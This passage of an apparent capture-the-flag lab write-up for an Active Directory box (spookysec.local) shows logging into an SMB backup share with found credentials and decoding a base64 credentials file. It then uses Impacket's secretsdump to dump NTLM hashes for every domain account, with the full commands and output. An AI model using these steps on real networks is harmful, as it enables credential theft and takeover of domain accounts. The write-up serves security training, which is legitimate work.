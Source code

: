 ### There is one particular share that we have access to that contains a text file. Which share is it?

{% highlight bash %}
$ smbclient //10.10.193.110/backup -U 'svc-admin%management2005'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 21:08:39 2020
  ..                                  D        0  Sat Apr  4 21:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 21:08:53 2020

                8247551 blocks of size 4096. 3930770 blocks available
smb: \> get backup_credentials.txt 
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
{% endhighlight %}

### What is the content of the file?

`YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw`

### Decoding the contents of the file, what is the full contents?

`backup@spookysec.local:backup2517860`

![backup_credentials.txt](/assets/img/thm/windows/attackive-directory/backup_credentials.png)

___

## Elevating Privileges within the Domain 

> Now that we have new user account credentials, we may have more privileges on the system than before.

Knowing this, we can use another tool within Impacket called "`secretsdump.py`". This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer. Exploiting this, we will effectively have full control over the AD Domain.

{% highlight bash %}
$ python3 /usr/local/bin/secretsdump.py -just-dc-ntlm spookysec.local/backup:backup2517860@$TARGET
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::